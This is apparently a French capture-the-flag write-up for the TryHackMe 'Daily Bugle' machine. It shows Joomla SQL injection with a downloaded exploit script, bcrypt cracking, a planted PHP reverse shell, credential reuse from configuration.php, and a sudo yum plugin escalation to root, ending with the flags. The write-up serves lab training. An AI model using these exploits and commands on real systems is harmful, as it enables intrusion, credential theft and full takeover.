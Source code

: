 # Daily Bugle

## Access the web server, who robbed the bank?

### Nmap Scan

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)
```
Lorsque nous nous connectons sur la page principale nous pouvons voir la personne qui dérobe la bank qui est `spiderman`
![image](https://media.discordapp.net/attachments/1009169820413071504/1036668160448925777/unknown.png?width=876&height=662)

## What is the Joomla version?

Grâce au README.txt, nous pouvons trouver la version de Joomla
```
$ curl -s http://10.15.236.69/README.txt | head
1- What is this?
    * This is a Joomla! installation/upgrade package to version 3.x
    * Joomla! Official site: https://www.joomla.org
    * Joomla! 3.7 version history - https://docs.joomla.org/Joomla_3.7_version_history
    * Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/master

2- What is Joomla?
    * Joomla! is a Content Management System (CMS) which enables you to build Web sites and powerful online applications.
    * It's a free and Open Source software, distributed under the GNU General Public License version 2 or later.
    * This is a simple and powerful web server application and it requires a server with PHP and either MySQL, PostgreSQL or SQL Server to run.
```
Donc on peut voir que Joomla est à la version `3.7.0`

## What is Jonah's cracked password?

J'ai trouvé une exploit qui existait pour Joomla, je l'ai donc essayer et voici le résultat:
```
$ wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
$ python joomblah.py http://10.15.236.69

[REDACTED]

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Maintenant, nous avons le mot de passe hashé de Jonah, nous allons donc le crack à l'aide de John: 

```
$ /data/src/john/run/john jonah.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
1g 0:00:09:27 DONE (2022-10-31 15:30) 0.001762g/s 82.55p/s 82.55c/s 82.55C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Voici donc le mot de passe de Jonah qui était `spiderman123`

## What is the user flag?

Installons un reverse shell en php sur revshell

Nous allons aller dans la dir `administrator` puis tapez le username Jonah et le password spiderman123 pour se connecter à la page d'administration

Une fois connecter, dirigeons nous vers Extensions puis cliquer sur Templates

Ensuite, cliquez sur Beez3 Details and Files et normalement si tout a bien été fait vous arriverez sur cette page:

![image](https://media.discordapp.net/attachments/1009169820413071504/1036671406605340742/unknown.png?width=1215&height=662)

`http://10.15.236.69/templates/beez3/index.php`

Ensuite, j'ai inspecté le répertoire /var/www/html/ et extrait les informations suivantes du fichier configuration.php, qui révèle le mot de passe de la base de données.

```
sh-4.2$ cat configuration.php
cat configuration.php
<?php
class JConfig {
    public $offline = '0';
    public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
    public $display_offline_message = '1';
    public $offline_image = '';
    public $sitename = 'The Daily Bugle';
    public $editor = 'tinymce';
    public $captcha = '0';
    public $list_limit = '20';
    public $access = '1';
    public $debug = '0';
    public $debug_lang = '0';
    public $dbtype = 'mysqli';
    public $host = 'localhost';
    public $user = 'root';
    public $password = 'nv5uz9r3ZEDzVjNu';
[REDACTED]
```
Puis après réflection je viens de remarquer que ce mot de passe et celui de jjameson.

```
sh-4.2$ su jjameson
su jjameson
Password: nv5uz9r3ZEDzVjNu

$ whoami
jjameson
$ cd
$ ls
user.txt
$ cat user.txt
27a260fe3cba712cfdedb1c86d80442e
```

**User flag**: `27a260fe3cba712cfdedb1c86d80442e`

## What is the root flag?

Enfin du coup, je me suis donc connecter en ssh sur l'utilisateur jjameson et voici le résultat:

```
$ ssh jjameson@10.10.233.69
jjameson@10.10.233.69's password: 
Last login: Sun Jun 14 12:07:53 2020
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Récupérons le dernier flag:
```
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
sh-4.2# cd /root
sh-4.2# ls
anaconda-ks.cfg  root.txt
sh-4.2# cat root.txt
eec3d53292b1821868266858d7fa6f79
```

**Flag Root:** `eec3d53292b1821868266858d7fa6f79`






